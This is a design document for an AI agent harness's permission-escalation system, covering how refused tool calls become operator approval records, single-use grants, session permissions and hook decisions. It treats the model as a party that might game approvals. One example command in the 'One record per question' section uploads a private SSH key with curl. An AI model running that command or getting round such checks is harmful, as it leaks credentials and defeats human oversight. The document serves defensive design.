


# Permissions, approvals, and escalation

A tool call in Loom runs under a sandbox policy composed from the session's
base policy, the tool's own requirements, and any grants the call carries
([effects.md](effects.md) has the composition rules). When the requirements
exceed the base, the broker refuses the call before it spends any budget or
starts any process. That refusal is the one tool outcome a human can change.
This document follows it from the refusal, through a durable **escalation
record** that operators are shown, to a decision, and back to the single
re-execution the decision authorizes. It also covers the two kinds of
standing authority that outlive one call: permissions remembered for the
session, and directories an operator adds to it.

The mechanism spans all three planes. The broker (effect plane) produces the
refusal and its exact policy diff. The runtime (orchestration plane) stores
the escalation as a register and commits every transition under a
compare-and-set, which the durability plane provides. The client package
connects the two: `client/escalate` holds a refused call open while a human
answers, the gateway validates and commits the answer, and the terminal
presents the question. Multi-operator identity and roles are
[multiplayer.md](multiplayer.md)'s subject; this document uses them only to
say who may answer.

## The vocabulary

A **denial** is the broker's structured refusal, `broker/escalation.Denial`:
a reason, a source, and `wanted`, the list of grants that would satisfy the
call. `policy.compose` reports every requirement the composed policy fails
to meet as a `Narrowing`, and `policy.wanted_grants` turns those into the
`wanted` list. A **grant** (`broker/policy.Grant`) widens exactly one field:
a readable root, a writable root, the network, an environment name, a
resource limit, or the scratch choice. No grant can remove a `protected`
entry.

An **escalation record** (`runtime/escalation.Escalation`) is the durable
form of one question put to a human. It lives in the `fact.custom` register
under the reserved key `escalation/<id>`, and its status moves through
`Pending`, `Approved`, `Rejected` and `Consumed`. The id identifies the
*question*: it is a digest of `{strand, tool, wanted diff}` and nothing
else. The record also carries the call that currently holds the question
(its **scope**), a digest of the arguments that call would run (its
**action**), a bounded preview of those arguments for display, a count of
how many times the row has asked, and the origin of whoever decided it.

A **claim** moves a record's scope to a new call. Claims exist because the
call that first raised a record has usually settled by the time anyone
answers: a model that reads an in-band refusal retries under a new call id
from the provider. The record follows whichever call is currently
refused.

An approval has one of three **lifetimes**. *Once* authorizes one
re-execution of one call. *For the session* does the same and also records
the grants in a session fact that every later call picks up. *Deny* rejects
the question. Separately, an operator can **add a directory** to the
session without any refusal having happened.

## Where refusals come from

Three code paths turn a missing permission into a raised refusal. All three
build the same `client/escalate.Refused` value from the driver's
`effects.ToolRun`, so every record names one real call in the tree and binds
the arguments a resumption would run.

1. **The broker refuses a clearance.** `client/wiring` wraps the tool's
   `Ctx.clear_call` in `escalating_runner`. When `broker.clear_call` returns
   `PolicyRefused`, the runner passes the refusal to the escalation seam.
   Every other refusal (an invalid policy, a spent budget, no helper) passes
   through untouched, because none of them is a decision a human can
   change.
2. **A tool asks before it acts.** `tool.authorize_policy` composes the
   policy a tool is about to need, and if anything is missing it calls
   `Ctx.raise_refusal` with a denial built from `policy.wanted_grants`.
   Three callers use it. `bash` and `code_mode` accept an optional
   `permissions` argument (`readable_roots`, `writable_roots`, and
   `network: "full"`, at most 32 paths), which `tools/permissions` decodes
   and canonicalizes. The native file tools (`fs_read`, `fs_write`,
   `fs_edit`) resolve their exact target before any I/O and ask for that
   canonical path, never its parent directory.
3. **A code-mode launch is refused.** Code mode clears through the broker
   the pipeline holds, so its refusals never reach `escalating_runner`.
   `client/codemode.launch_refusal` reports a refused satellite launch as
   `RunRefused`, and the tool raises it once for the whole execution through
   the same `raise_refusal` seam. [code-mode.md](code-mode.md) explains why
   the launch is the only one of code mode's three clearance points that
   raises.

Some failures never become a question. A raw kernel denial inside a running
shell command reports no canonical resource or grant through the helper
protocol, and stderr is not a trusted policy event. A capability refused
inside a running code-mode program is refused after that program's earlier
effects have happened, and approving it would require a replay that
`replay: tool.Never` forbids. Both stay ordinary tool results. The model can
submit a new call that declares the permissions it needs, and that call asks
before anything runs.

For a failed `bash` command whose stderr says `Operation not permitted`,
`Permission denied`, or `Read-only file system`, the result now explains
that fresh-call path. If Git
reports a quoted lock under an absolute `.git` path, the result also names
the reported metadata directory as a possible writable root. This is
diagnostic text from untrusted command output, not a grant or an automatic
replay. The next call's `permissions` value is still canonicalized and
checked against protected paths before an operator sees the exact request.
On Linux, a writable root must already exist for the bind mount. For a new
worktree destination, the call therefore requests its existing parent.

## From refusal to grant

The following sequence is the common case: a policy refusal while an
operator is attached, answered with a once-only approval.

Step by step:

1. **Borrow the runtime.** The escalation seam is built before `api.open`
   returns a runtime, so it closes over a process address rather than a
   runtime value (the same arrangement `client/agency` uses). A small
   holder actor answers `Borrow` with the live runtime. The request is sent
   with a monitor and a `holder_timeout_ms` bound (5 s by default), so an
   absent, dead or slow holder settles the call in band instead of killing
   the tool's effect process.
2. **Compute the two identities.** `escalate.record_id` digests
   `{strand, tool, wanted diff}` into `policy-` followed by 32 hex
   characters. The wanted diff is sorted, and a limit grant contributes only
   the field it raises, never its magnitude, because `bash` derives `wall_s`
   from a model-chosen `timeout_ms`; a retry loop that stepped the timeout
   would otherwise open one record, and one prompt, per attempt.
   `escalate.action_digest` digests the call's post-clearance arguments,
   with every object's keys sorted and arrays left in order, so
   re-serialization cannot re-prompt and any value change does.
   `action_preview` renders the same canonical JSON, cut at 2 KB on a
   codepoint boundary.
3. **Check the cap.** A refusal that lands on an existing record always
   proceeds. One that would open a new record proceeds only while the
   session holds fewer than `max_records` (256) records; past that it
   settles in band. The cap exists because a tool clearance and the
   gateway's pull both scan the whole `escalation/` prefix.
4. **Claim the record.** `api.claim_escalation` writes a fresh `Pending`
   record when none exists, and otherwise applies `escalation.claimed` under
   a compare-and-set. The transition depends on the record's status, as the
   next section describes. A claim that answers `Exhausted`, a commit
   fault, or a lost writer settles the call in band.
5. **Park, or settle.** The call parks only when the claim succeeded *and*
   `Config.interactive` reports someone attached. Parking holds the call
   open on the tool's own effect process, never on the strand driver, which
   must keep serving `Nudge`, `RequestAbort` and `PollTick` so the operator
   can abort the run being asked about. The wait is a `weft/poll` loop on
   the session's clock that reads the record every `poll_interval_ms`
   (1 s). The window closes at the earlier of `park_timeout_ms` (five
   minutes) and the deadline the refusal carries. On the escalating-runner
   path that is the call's own budget deadline, because the broker's ledger
   refuses any reservation past it. The `raise_refusal` path carries a
   deadline ten minutes out, so the five-minute bound applies first.
6. **Watch the record.** Each poll reads the record's cell, which includes
   the register seq. A record whose scope no longer names this call settles
   the call, because another call has taken the claim and will spend the
   answer. `Rejected` and `Consumed` settle. `Pending` retries while someone
   is attached and settles once nobody is. `Approved` moves to the spend.
7. **Spend.** `spend` checks three things before it commits anything: the
   scope still names this call, the record's action digest equals this
   call's, and the budget deadline has not passed. It then calls
   `api.consume_escalation_at`, which moves `Approved` to `Consumed` under a
   compare-and-set at the seq the checks were made against. Only a won
   commit returns grants, and only then does the seam answer
   `Resume(grants)`.
8. **Re-clear once.** `escalating_runner` appends the grants to the same
   `CallSpec` and calls `clear_call` again. If the widened policy still does
   not satisfy the tool, that second refusal stands in band; there is no
   loop. For the `raise_refusal` path, `tool.authorize_policy` recomposes
   with the new grants and reports whatever remains missing.

Every other exit settles the call with the refusal it arrived with: a
denial, an expired window, a disconnected client, a lost compare-and-set, a
claim taken by another call, a grant payload that will not decode, or a
crash. The model cannot tell these apart, and the design depends on that.
An `Exhausted` record in particular must produce the same in-band refusal
as a first denial, or the absence of a prompt would signal that an approval
exists.

The consume commits before the grants reach a policy because the
capability is exercised the moment the grants compose. A crash between the
consume and the dispatch spends the approval without an execution, which is
the safe direction.

The strand driver has a second spending path. `strand_runtime`'s tool
clearance loads the session's `Approved` records, keeps those whose scope
equals the exact call being cleared, consumes each by compare-and-set, and
passes only the grants whose consume won into `tools.clear`. The grants then
travel on `ToolRun.grants` to the dispatch they authorized, and
`client/wiring` decodes them into `Ctx.grants`. A replayed call carries no
grants, because its clearance belonged to an earlier incarnation whose
approval is already consumed.

## One record per question

The record's status and its claim transitions together form a small state
machine. `escalation.claimed` is the only transition that moves a question
from one call to another.

A claim on a `Pending` record moves the scope and refreshes the stored
denial, action and preview, so the operator reads what the current call
would run. A claim on an `Approved` record whose action digest matches keeps
the grants and moves the scope, which is how a retry spends an approval
granted while its predecessor was already settled. A claim on an `Approved`
record with a different action does not inherit the approval. Two calls on
one strand through one tool with one policy diff share a record id however
different their commands are, so without the action check a yes given to
`bash "true"` could be spent by `bash "curl -T ~/.ssh/id_rsa …"` later in
the session.

Every re-open costs a human another answer, and the party that provokes
re-opens is the model this mechanism constrains. The record therefore counts
its questions in `asked`, and `claimed` answers `Exhausted` instead of
re-opening once `asked` reaches `max_asks` (3). An exhausted row stays
terminal and its claimants settle in band.

Two consequences follow from one record per question. Two calls wanting
the same thing at the same time share one prompt, and so one authorization:
whichever holds the claim resumes and the other settles. And an approval
does not make a question unaskable; the next call with the same want asks
again, because one approval is one execution. Standing authority is a
different mechanism, described under [lifetimes](#lifetimes).

## Showing the question to operators

The gateway hub reads escalation records from the reserved prefix. It
lists pending ones in its snapshot and emits `escalation` events as records
change. The `op` and `strand` fields on the wire come from the record's
`CallScope`, never from which strand happens to be busy. The terminal
decodes escalation cells from each metadata cut (`tui/approval.records`)
and keeps the current pending set plus up to sixteen resolved summaries.

When a pending record appears, the terminal opens an approval dialog
(`tui/approval_panel`) automatically, once per `{id, seq}` pair; a
re-opened record reuses its id but carries a new seq, so it counts as a new
question. The dialog captures the record at opening: its action digest, its
grants translated into the wire vocabulary, and its seq. No choice is
selected when it opens, so a queued Enter keystroke cannot approve a
request that arrived a moment earlier. The operator selects *allow once*,
*allow for session* or *deny*, and the decision is sent against the
captured record, not a fresh lookup. The session choice is offered only
when every displayed grant is eligible to be remembered. The dialog refuses
to offer approval, while still offering denial, when the detail exceeds its
16 KiB display bound or a grant cannot be encoded. Closing the dialog is
not a decision, and the record stays reachable through `/approvals`.

## Deciding

`approve` carries `escalation_id`, `grants`, `action`, `expected_seq` and
an optional `scope` (`"once"` or absent for once-only, `"session"` for the
session lifetime). `deny` carries the id and `expected_seq`. The gateway
handles both in its hub actor:

1. **Role.** An observer attachment is refused before any command runs,
   because `read_only` does not classify `approve` or `deny` as reads. The
   owner and `Operator` participants may decide.
2. **Same question.** `pending_escalation_cell` reads the record once,
   together with its register seq. A seq different from `expected_seq`
   answers `stale_approval`, with the current record in the error details
   so the client can re-render. A record that is no longer `Pending`
   answers `not_pending`.
3. **Echo checks** (approve only). The echoed action must equal the
   record's action digest; this binds the stored record to what the human
   was shown. Every echoed grant must appear in the stored denial's
   `wanted` list under structural equality (`grants.first_unwanted`), with
   no path normalization or network ordering. A subset is allowed, so an
   operator can approve less than was asked for; anything outside the list
   answers `stale_approval`.
4. **Commit.** The approval is written at the same seq the checks read,
   through `api.approve_escalation_at` for a once-only answer or
   `api.approve_escalation_with_fact_at` for a session answer, which also
   writes the remembered-permissions fact. The record's `origin` is the
   authenticated principal of the deciding connection. A lost
   compare-and-set answers `stale_approval` with a freshly read record.

### Several operators on one session

Every eligible operator attached to a session is shown the same pending
record, and any of them may answer. The answers race on the record's
register seq, so the first to commit wins. A second answer, approve or deny,
arrives with an `expected_seq` that no longer matches and receives
`stale_approval` carrying the decided record, which lets the losing
terminal show who decided and how. The gateway never retries a human's
answer against a newer question. `tui_approval_effect_test` exercises this
race with two operator sockets, a real broker and SQLite, and checks that
exactly one execution runs.

Whether a refused call parks at all depends on
`client/gateway.attached`, which counts every attachment on the hub. The
count includes observer attachments, which cannot decide, so a session with
only an observer attached parks a refused call until its window closes. A
hub that does not answer within one second counts as zero.

## Lifetimes

### Once

A once-only approval stores its grants on the record and nothing else. It
widens exactly one re-execution of exactly one call, and it is spent when
the record moves to `Consumed`.

### For the session

A session approval also records the grants in the reserved fact
`client/permission_grants` (`client/permissions`). Only canonical readable
or writable roots and full network access are eligible. A request that
mixes eligible grants with others (limits, environment names, scratch, a
non-full network) is refused for the session lifetime rather than
remembering a subset; the terminal does not offer the choice in that case.
A readable or writable root may name an exact file, including a writable
file that does not exist yet, which is why these grants live in a fact
separate from directory additions.

`permissions.remembering` reads the current fact, forms the union with the
new grants, and returns a `ReservedFactChange` carrying the fact's seq as
an expectation. `api.approve_escalation_with_fact_at` commits the approval
and the fact in one transaction guarded by both seqs, so a conflict on
either writes neither. Two operators approving different questions for the
session at the same moment cannot overwrite each other's remembered
grants; the loser gets `stale_approval` and a fresh question.

The remembered grants apply to later calls, not to the call being
approved; that call resumes with its consumed grants like any once-only
approval. Running executions and background jobs keep the authority they
captured when they started.

### Directory additions

An operator adds a directory with `/add-dir PATH` (read) or
`/add-write-dir PATH` (read and write). The terminal sends `set_config` with
an `add_directory` object, which must be the only setting and must not name
a strand. The gateway admits it only from the owner or an `Operator`
participant. `client/directories` resolves the path to its canonical
target, refuses a write addition at or under a `protected` entry, requires
an existing directory, and commits the updated list to the reserved fact
`client/directory_access` under a compare-and-set, recording the
operator's origin. Adding write access to a directory that already has read
access upgrades the entry. Call-bound approvals never write this fact.

### How dispatch reads standing authority

`client/wiring.run_tool` reads both facts once per tool dispatch. A missing
fact means no additions. A fact that will not read or decode, a path whose
canonical target has changed since it was stored, or an added directory
that no longer exists refuses the call rather than falling back to the
baseline. Without the target check, a renamed path could become authority
over a new symlink target.

The two facts then feed two separate kinds of authority, which
`tools/directory_access.Access` keeps apart. The jail's base policy is
widened with the directory additions and the remembered grants. Native file
tools, which run in the harness and never pass through the jail, start from
the workspace alone and add only the explicit directories, the remembered
roots, and the grants this call consumed. The distinction matters because
the default base lets a jailed shell read most of the host filesystem;
that read access must not leak to `fs_read` and `fs_write`. Protected
paths stay unwritable on both sides.

The capture happens once per invocation. A background job receives the
policy its starting call captured, and a code-mode execution's filesystem
capabilities keep the roots its call captured, so an addition or a
remembered grant committed later reaches only later calls.

## Imported hook decisions

Claude-compatible `PreToolUse` hooks ([hooks-compat.md](hooks-compat.md))
run after the harness's own clearance, and only on a call the harness
cleared. `client/hookdecisions` reads a hook's exit code and stdout as one
of four verdicts, and `client/hookserve` applies it:

- **Proceed** (silence, a bare `allow`, or a timed-out hook) keeps the
  harness's clearance. A hook's `allow` never skips the harness's checks.
- **Deny** (exit 2, or `permissionDecision: "deny"`) refuses the clearance
  with the hook's reason.
- **Ask** (`permissionDecision: "ask"`) also refuses the clearance, with a
  reason that says the hook asked for confirmation. It does not raise an
  escalation record, because the clearance has already been granted and
  the seam offers no way to hold it open from there.
- **Rewrite** (`allow` with `updatedInput`) sends the replacement
  arguments back through the harness's clearance, so the arguments that run
  are the arguments the harness last approved. The hooks are not asked a
  second time.

A hook can therefore narrow what the escalation path produced but never
widen it.

## Crashes and restarts

The escalation record, the remembered-permissions fact and the
directory-additions fact are registers in the session's SQLite store. They
survive a crash, a daemon restart and a reopened session. Everything else
in this document is process state: the park loop, the holder, the dialog.

A call parked when its process dies is not re-parked. The effect process is
linked to the driver's reaper, so a driver restart or an abort kills the
parked call, and the driver settles it through its ordinary monitor path.
A tool declared `replay: tool.Never`, such as `bash` or `code_mode`,
settles as interrupted and is not run again. The record it raised stays in
whatever state it had. A pending record is still shown to operators after
the restart, and an operator can still answer it. An approval given then is
spent by the next call that raises the same want with the same action: the
claim keeps the grants, and that call's park finds the record `Approved` on
its first read. A retry with a different action re-opens the question
instead. A replay-safe tool that is re-run on recovery raises onto the same
record, because the record id is derived from the want rather than minted
per call.

A crash between a consume and the dispatch leaves a `Consumed` record with
no execution. The next raise of the same want re-opens it as a new
question, so the cost is one wasted approval and one more prompt.

The escalation holder runs in the session's services supervisor. A
refusal that arrives while the holder is restarting settles in band with no
record written, because the seam borrows the runtime before it raises. A
missing audit line is the accepted cost; the alternative is a holder that
does more work and has more ways to fail.

## Invariants

- **An approval widens one execution of one call.** The consume is a
  compare-and-set that must win before the grants compose into a policy,
  the scope check is exact equality on `{operation, strand, step, source
  index, call id}`, and a resumed call is re-cleared once.
- **Consent binds to the action, not only the want.** An approval is
  inherited only by a claimant whose action digest matches the one the
  operator saw, and the gateway refuses an answer whose echoed digest
  differs from the stored one.
- **An approval never grants more than was asked.** The broker's
  `escalation.approve` accepts only grants drawn from the denial's `wanted`
  list, and the gateway checks the echoed grants against the stored denial
  the same way. No grant can lift a `protected` path.
- **Unattributable records widen nothing.** A record without a scope
  matches no clearance, and a record without an action matches no claimant
  and satisfies no spend.
- **Only the harness writes these facts.** `escalation/` and `client/` are
  reserved prefixes: `api.put_fact` refuses them and `api.facts` hides
  them, so a model cannot forge an approval, a remembered permission or a
  directory addition.
- **The escalation set is bounded.** Width is bounded by excluding limit
  magnitudes from the record id; count by `max_records`; re-asking by
  `max_asks`.
- **Every failure settles in band.** No path in the escalation seam can
  crash the tool's effect process or block the strand driver.

## Where the code lives

Paths are relative to each package's source root: `client/escalate.gleam`
is `packages/client/src/client/escalate.gleam`.

| Path | What it owns |
|---|---|
| `broker/escalation.gleam` | The pure lifecycle: `Denial`, `Status`, the single-consume state machine, and the rule that an approval may grant only from the wanted diff. |
| `broker/policy.gleam` | `Grant`, `compose`, `Narrowing`, and `wanted_grants`, which produce the diff a denial carries. |
| `runtime/escalation.gleam` | The durable record: `CallScope`, `Action`, the `claimed` transition, `asked`, and the total decoder. |
| `runtime/api.gleam` | The escalation surface: `claim_escalation`, `escalation_cell`, `approve_escalation_at`, `approve_escalation_with_fact_at`, `deny_escalation_at`, `consume_escalation_at`. |
| `runtime/strand_runtime.gleam` | The driver's clearance, which consumes approvals scoped to the call being cleared. |
| `client/escalate.gleam` | Raising, claiming, parking and spending; `record_id`, `action_digest`, `action_preview`, and the defaults in `default_config`. |
| `client/wiring.gleam` | `escalating_runner`, the `raise_refusal` seam, and `run_tool`'s capture of standing authority. |
| `client/grants.gleam` | Decoding and encoding grants between the runtime's opaque JSON and typed `Grant` values. |
| `client/gateway.gleam` | `approve` and `deny`: the role check, the seq and echo checks, the commit, `stale_approval`; `attached`; the `add_directory` door. |
| `client/permissions.gleam` | The remembered-permissions fact: eligibility, validation, and the guarded union. |
| `client/directories.gleam` | The directory-additions fact and the operator's add door. |
| `client/hookdecisions.gleam`, `client/hookserve.gleam` | Reading a `PreToolUse` hook as a verdict, and applying it after the harness's clearance. |
| `tools/tool.gleam` | `authorize_policy`, `RaisedRefusal`, `Escalated`, and `Ctx`'s `grants`, `directory_access` and `raise_refusal` fields. |
| `tools/permissions.gleam` | The `permissions` argument on `bash` and `code_mode`. |
| `tools/directory_access.gleam` | Native filesystem authority, kept separate from the jail's read roots. |
| `tui/approval.gleam`, `tui/approval_panel.gleam` | Decoding records from a metadata cut, the approval dialog, and the `approve`/`deny` commands it sends. |

Protocol changes [007](../../protocol-change/007-escalation-carries-the-action.md)
(the action on the wire and the echo),
[040](../../protocol-change/040-session-directory-access.md) (directory
additions and declared permissions) and
[041](../../protocol-change/041-session-approval-dialog.md) (the dialog and
remembered permissions) hold the wire contracts. Design intent is in
`docs/loom-design.md` §5.3.
